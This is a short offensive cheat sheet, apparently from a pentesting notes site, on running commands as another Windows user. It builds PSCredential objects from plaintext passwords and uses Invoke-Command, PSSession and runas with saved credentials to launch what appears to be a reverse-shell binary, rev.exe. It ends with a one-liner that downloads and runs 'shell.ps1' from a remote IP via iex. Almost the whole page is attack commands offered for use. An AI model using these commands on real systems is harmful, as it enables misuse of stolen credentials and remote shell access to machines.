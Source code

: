 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["powershell", "cred object", "Windows", "runas"]
---
```


---
### Create credential object

{{< tab set1 tab1 active >}}Method #1{{< /tab >}}
{{< tab set1 tab2 >}}Method #2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```powershell
$username = '<DOMAIN>\<USER>'
```

```powershell
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```powershell
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```powershell
$username = '<DOMAIN>\<USER>'
```

```powershell
$password = '<PASSWORD>'
```

```powershell
$secstr = New-Object -TypeName System.Security.SecureString
```

```powershell
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

</div>

{{< /tabcontent >}}

### Runas (with cred object)

{{< tab set2 tab1 active >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```powershell
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost
```

```powershell
# If error, try
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -auth credssp
```

```powershell
# Invoke command with config
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -ConfigurationName config_name
```

</div>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

<div>

```powershell
new-pssession -computername . -credential $cred
```

```powershell
# Switch to new session
enter-pssession 1
```

</div>

{{< /tabcontent >}}

### Runas (with cache creds)

#### Check cache creds

<div>

```powershell
cmdkey /list
```

</div>

#### Run Command

<div>

```powershell
# e.g. Upload and run a shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.10/shell.ps1')"
```

</div>

<br>
